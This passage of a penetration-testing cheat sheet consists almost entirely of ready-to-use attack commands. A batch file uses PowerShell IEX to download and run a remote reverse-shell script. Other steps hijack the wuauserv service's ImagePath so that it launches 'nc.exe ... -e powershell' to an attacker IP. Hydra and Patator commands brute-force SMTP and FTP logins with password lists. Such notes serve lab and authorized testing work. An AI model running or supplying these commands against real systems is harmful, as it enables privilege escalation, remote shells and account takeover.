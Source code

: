 ```bat
;= rem rev.bat

cmd /c powershell -NoP IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/[4]')
```

1. [github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
2. [ohpe.it/juicy-potato/CLSID](https://ohpe.it/juicy-potato/CLSID)
3. [github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
4. [github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


#### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.16 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```




## Auth Brute Force



### Hydra

```
root@kali:$ hydra -V -t 20 -f -I -L logins.lst -P /usr/share/john/password.lst 127.0.0.1 -s 8888 smtp
root@kali:$ hydra -V -t 20 -f -I -l admin -P /usr/share/john/password.lst 127.0.0.1 -s 8888 ftp
```



### Patator

```
root@kali:$ patator smtp_login host=127.0.0.1 port=8888 user=FILE0 password=FILE1 0=logins.lst 1=/usr/share/john/password.lst -x ignore:mesg='(515) incorrect password or account name' -x free=user:code=0
root@kali:$ patator ftp_login host=127.0.0.1 port=8888 user=admin password=FILE0 0=/usr/share/john/password.lst -x ignore:mesg='Login incorrect.' -x free=user:code=0
```




## Wi-Fi


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)
